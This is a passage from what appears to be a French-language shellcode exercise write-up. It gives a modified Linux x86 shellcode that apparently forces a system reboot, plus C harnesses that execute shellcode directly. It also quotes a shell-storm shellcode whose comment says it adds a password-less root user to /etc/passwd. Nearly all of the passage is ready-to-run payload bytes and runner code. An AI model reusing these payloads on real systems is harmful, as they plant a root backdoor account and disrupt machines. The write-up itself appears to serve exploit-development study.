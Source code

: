 Once compiled, we get our modified shellcode :

```c
"\x6a\x24\x58\xcd\x80\x6a\x58\x58\xbb\xad\xde\xe1\xfe\xb9\x57\xf6\xe0\x15\x81\xc1\x12\x23\x31\x12\xba\x67\x45\x23\x01\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80";
```

The 3 codes have been tested thanks to the program below:

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\x6a\x24\x58\xcd\x80\x6a\x58\x58\xbb\xad\xde\xe1\xfe\xb9\x57\xf6\xe0\x15\x81\xc1\x12\x23\x31\x12\xba\x67\x45\x23\x01\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80";

int main()
{

        printf("taille %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

### Quatrième modification ###

Source : http://shell-storm.org/shellcode/files/shellcode-548.php

```c
/* Linux x86 shellcode, to open() write() close() and */
/* exit(), adds a root user no-passwd to /etc/passwd */
/* By bob from dtors.net */

#include <stdio.h>

char shellcode[]=
		"\x31\xc0\x31\xdb\x31\xc9\x53\x68\x73\x73\x77"
		"\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74"
		"\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89"
		"\xc3\x31\xc0\x31\xd2\x68\x6e\x2f\x73\x68\x68"
		"\x2f\x2f\x62\x69\x68\x3a\x3a\x2f\x3a\x68\x3a"
		"\x30\x3a\x30\x68\x62\x6f\x62\x3a\x89\xe1\xb2"
		"\x14\xb0\x04\xcd\x80\x31\xc0\xb0\x06\xcd\x80"
		"\x31\xc0\xb0\x01\xcd\x80";

int
main()
{
        void (*dsr) ();
        (long) dsr = &shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        dsr();
}
```
